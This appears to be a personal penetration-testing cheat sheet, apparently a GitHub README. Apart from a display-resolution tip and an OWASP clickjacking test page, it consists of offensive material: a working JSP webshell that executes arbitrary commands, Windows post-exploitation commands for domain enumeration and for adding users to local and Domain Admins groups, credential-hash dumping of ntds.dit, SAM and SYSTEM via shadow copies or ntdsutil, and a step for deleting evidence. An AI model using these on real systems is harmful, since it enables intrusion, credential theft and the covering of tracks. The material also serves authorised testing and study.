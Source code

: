 # Cheat Sheets
My cheatsheets

## Add new resolution

```bash
$ cvt 1920 1080 60
# 1920x1080 59.96 Hz (CVT 2.07M9) hsync: 67.16 kHz; pclk: 173.00 MHz
Modeline "1920x1080_60.00"  173.00  1920 2048 2248 2576  1080 1083 1088 1120 -hsync +vsync

$ xrandr --newmode "1920x1080_60.00"  173.00  1920 2048 2248 2576  1080 1083 1088 1120 -hsync +vsync
$ xrandr --addmode Virtual1 1920x1080_60.00
```
## Clickjacking Test
[Owasp](https://www.owasp.org/index.php/Testing_for_Clickjacking_(OTG-CLIENT-009))
```html
<html> 

   <head> 

     <title>Clickjack test page</title> 

   </head> 

   <body> 

     <p>Website is vulnerable to clickjacking!</p> 

     <iframe src="URL" width="500" height="500"></iframe> 

   </body> 

</html>
```


## Webshell

```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

## Spawn shell with given user,only for network purpose
Windows
```cmd
runas /netonly /user:domain\account cmd
```

## Useful commands Windows Post Exploitation

**Get Domain Controller name**
```cmd
C:\Users\User> nltest /dclist:DOMAIN
C:\Users\User> echo %LOGONSERVER%
```

**Domain Users**
```cmd
C:\Users\User> net users /domain
```

**Domain Groups**
```cmd
C:\Users\User> net groups /domain
```

**List the users of specific group**
```cmd
C:\Users\User> net groups "Domain Admins" /domain
```

**Add new user**
```cmd
C:\Users\User> net user USER PASS /add
```

**Delete user**
```cmd
C:\Users\User> net user USER /del
```

**List Local Groups**
```cmd
C:\Users\User> net localgroups
```

**Add user to Local Admin Group**
```cmd
C:\Users\User> net localgroup administrators USER /add
```

**Add user to Domain Amdins**
```cmd
C:\Users\User> net groups "Domain Admins" USER /add
```

**Account Password Policy**
```cmd
C:\Users\User> net accounts /domain
```

## HashDump with Windows Tools

+ **Shadow Copy**

1. Check if there is any Shadow Copy
```cmd
vssadmin list shadows
```

2. Create a Shadow Copy Volume
```cmd
vssadmin create shadow /for=X:  //Where X is the HDD where is the el ntds.dit file
```

3. Copy ntds.dit, SYSYEM and SAM
```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM .
```

4. Delete the evidences
```cmd
vssadmin delete shadows /for=X:
```

+ **NTDSUTIL**

```cmd
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

